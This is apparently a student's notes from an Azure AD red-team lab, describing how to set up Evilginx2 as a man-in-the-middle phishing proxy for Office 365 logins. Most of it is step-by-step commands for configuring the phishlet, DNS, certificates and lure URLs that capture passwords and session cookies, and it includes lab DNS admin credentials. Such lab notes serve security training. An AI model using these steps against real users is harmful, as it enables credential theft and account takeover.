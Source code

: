 # Initial Access - Phishing - Evilginx2

- We can use Evilginx2 (https://github.com/kgretzky/evilginx2) for phishing attacks.

- Evilginx acts as a relay/man-in-the-middle between the legit web page and the target user. The user always interacts with the legit website and Evilginx captures usernames, passwords and authentication cookies.

- It uses phishlets that are configuration files for specific target domains.
These are YAML files that specify conditions like hosts, filters, structure
of authentication cookies and credentials.

#### Starting Evilginx2

- Evilginx2 is already setup on the student VMs. We can use the following commands.
- Start evilginx2:
```
evilginx2 -p C:\AzAD\Tools\evilginx2\phishlets
```
- Configure the domain:
```
config domain studentx.corp
```
- Set the IP for the evilginx server:
```
config ip 172.16.x.x
```
- Use the template for Office 365:
```
phishlets hostname o365 login.studentx.corp
```
- Verify the DNS entries:
```
phishlets get-hosts o365
```

#### Setup DNS
You can access DNS Server by browsing to ```http://172.16.2.50:5380/``` from your student VM and using the following details:
```
username: admin
password: admin@123
```

- Now goto ```Zones > Add Zone``` and create zone ```Student213.corp```
- Edit Name Server and Statement of Authority and set values to - 172.16.2.50
- Now add two A Records
  - ```login.login``` pointed to local IPv4
  - ```www.login``` pointed to local IPv4

**MAKE SURE TO KILL XAMPP 365 STEALER!**

### Now send the phish and lure
- Copy the certificate and private key - o365.crt and o365.key from:
```C:\studentx\.evilginx\crt``` to ```C:\studentx\.evilginx\crt\login.studentx.corp```
```
Copy-Item C:\Users\studentuser213\.evilginx\crt\ca.crt C:\Users\studentuser213\.evilginx\crt\login.student213.corp\o365.crt
Copy-Item C:\Users\studentuser213\.evilginx\crt\private.key C:\Users\studentuser213\.evilginx\crt\login.student213.corp\o365.key
```


- Enable phishlets:
```
phishlets enable o365
```
-  Create the phishing URL (tied to an ID):
```
lures create o365
```
- Get the phishing URL
```
lures get-url <ID>
```
- Share the URL with the victim. (For the lab, send an email using your personal email).
- 
